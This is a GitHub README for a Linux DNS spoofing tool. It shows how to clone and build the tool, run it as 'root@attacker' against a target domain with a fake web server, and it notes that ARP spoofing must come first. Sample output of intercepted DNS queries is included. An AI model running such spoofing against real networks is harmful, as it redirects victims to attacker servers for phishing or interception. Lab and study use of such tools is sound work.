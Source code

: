 # DNS-Spoof
Linux DNS Spoofing tool


<img src="/demo.gif">


* You must arp-spoofing before dns-spoofing, and need fake web server.

1. Clone this project
```
[root@attacker dns_spoof]# git clone https://github.com/tear94fall/DNS-Spoof.git
[root@attacker dns_spoof]# ls -al  
합계 20  
drwxr-xr-x  3 test test    70 11월 14 17:46 .  
drwxr-xr-x. 6 root root   112 11월 14 14:23 ..  
drwxr-xr-x  8 root root   166 11월 14 17:47 .git  
-rw-rw-rw-  1 root root 10957 11월 14 17:46 main.cpp  
-rw-rw-rw-  1 test test    90 11월 13 10:36 makefile  
-rw-rw-rw-  1 root root  1132 11월 14 16:01 protocol.hpp  
```

2. Build project
```
[root@attacker dns_spoof]# make  
gcc main.cpp -o main -lnet -lpcap -lpthread  
```

3. Execute with info
```
[root@attacker dns_spoof]# ./main <target_domain> <fake web server>
1 :  intf1
2 :  intf333
...  
```  

4. Choose the network interface and wait  
```
[root@attacker dns_spoof]# ./main <target_domain> <fake web server>
1 :  intf1
2 :  intf333
...  
Enter the interface number you would like to sniff : 1
dns-spoofing: linstening on <network interface> [udp dst port 53 and not src <fake web server>]
192.168.0.123.38812 > 192.168.0.1.53:  9108+ A? www.google.com
192.168.0.74.36095 > 192.168.0.1.53:  <DNS id>+ A? <target_domain>

```
